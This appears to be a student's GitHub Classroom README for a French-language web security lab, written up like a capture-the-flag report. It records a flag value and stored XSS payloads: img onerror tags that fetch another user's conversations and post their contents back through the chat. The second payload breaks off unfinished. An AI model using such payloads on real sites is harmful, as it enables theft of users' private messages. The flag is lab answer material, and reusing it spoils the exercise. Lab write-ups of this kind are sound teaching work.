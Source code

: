 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-22041afd0340ce965d47ae6ef1cefeee28c7c493a6346c4f15d667ab976d596c.svg)](https://classroom.github.com/a/PrmTPRDA)
# 7 Security

Énoncé disponible sur le site du cours.

## Partie 1

### Flag 1



**Flag**: flag1:1479d95b923cd93f

**Exploit**: En premier j'utilise ce code que j envoie a echo. Ce code injecte une balise image avec un événement onerror pour exécuter JavaScript lorsque l'image ne parvient pas à se charger. Et cela sera toujours le cas car il n'y a pas d'image
```html
<img src="" onerror="
fetch('/conversation/88f02055cb77cdd3').then(async () => {
  if (document.querySelector('#header .name')?.innerText !== 'Nathan Fullemann') {
    const t = [...document.querySelectorAll('#conversations-list')].map(c => c.innerHTML.trim()).join('|||');
    message.innerHTML = t;
    messageButton.click();
  }
});
"/>
/>
```
![Alt text](./capture1.png "")
En cliquant sur nova je recupoere l'id de la conversation entre Nova et Echo qui est **c4234370f7b59b46** ce qui me permet ensuite d'effectuer celui ci. Ce code utilise toujours un événement onerror, qui exploite la même vulnérabilité XSS pour récupérer les détails de la conversation entre Nova et Echo.
```html
<img src="" onerror="
fetch('/conversation/c4234370f7b59b46')
```